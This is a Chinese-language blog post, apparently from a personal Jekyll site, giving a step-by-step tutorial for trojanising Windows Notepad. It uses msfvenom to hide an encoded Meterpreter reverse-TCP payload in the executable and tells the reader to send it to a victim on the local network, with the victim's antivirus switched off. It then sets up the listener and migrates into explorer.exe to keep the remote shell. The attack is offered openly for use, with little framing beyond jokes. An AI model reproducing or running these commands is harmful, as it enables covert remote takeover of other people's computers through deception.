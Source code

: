```yaml
---
layout: post
title: Kali用软件来攻击Windows
tags: linux windows
categories: dump
---
```


Metasploit=> MakeSoftware=> StartOnWindows

---

### 前言
你先弄出一个我们经常用的应用程序，然后把连接会话藏到这些应用里。这就是为什么在那些2008、2009年时说的“不要下载网站上未知来源的东西”。  
但现在我们有了360安全卫士啊，电脑管家啊那些杀毒软件就变得安全多了。对于我这个灰帽黑客兼MC博主来讲，This is a LITTLE problem。  
But anyways，我们关掉那台Xp的杀毒软件就行了鸭［滑稽］。  
好吧我们废话不多说，开始正题。

### 01.编译软件和发送
先在`~/`的位置里放置从电脑上拷贝出来的Notepad.exe  
然后在kali命令行里输入这段命令:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.106.12.175 LPORT=4444 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > ~/NotepadPro.exe
```
我们看到-p指到了reverse_tcp了。-p全写就是payload鸭。  
`LHOST`是指你的Kali电脑的ip地址。  
`LPORT`是指你的Kali电脑的端口。随情况而定。  
`-x`是指源，然后msfvenom根据源进行修改和添加。    
至于后面，是指转成X86（32位系统）的软件exe格式。  
  
你会发现在`~/`的位置下生成了一个`NotepadPro.exe`。  
把它发给在同一个局域网的用户，并指示受害者打开。前提是360要关掉。  
否则..  
![]({{ site.imgbed }}/img/kalihack/06.png)

### 02.设置内容并等待受害者打开文件
```msf
use exploit/multi/handler
//表示使用活动指向的监听器
```
```msf
set LHOST 192.106.12.175
//设置本机ip
```
```msf
set LPORT 4444
//设置本机端口
```
```msf
set payload windows/meterpreter/reverse_tcp
//设置载荷为*比较开放的tcp*
```
```msf
exploit
//开启监听
```
注意，开启监听后你不会立刻进入`meterpreter`命令提示符的shell直到受害者打开所谓的`NotepadPro.exe`应用。  
可受害者打开后察觉没啥意思后会关闭。关闭后，你将无法继续使用`meterpreter`。怎么办呢？我们需要**注入进程**！  

### 03.注入进程
我们看到这里，已经开始做**最坏的打算了**！  
我们进入`meterpreter`提示符后输入
```msf
ps
```
来查看进程，注意一个进程为`explorer`的内容，记下它的`pid号`。
![]({{ site.imgbed }}/img/kalihack/07.png)
![]({{ site.imgbed }}/img/kalihack/08.png)
`explorer`的*pid*是`4560`.  
融进`explorer`！
![]({{ site.imgbed }}/img/kalihack/09.png)
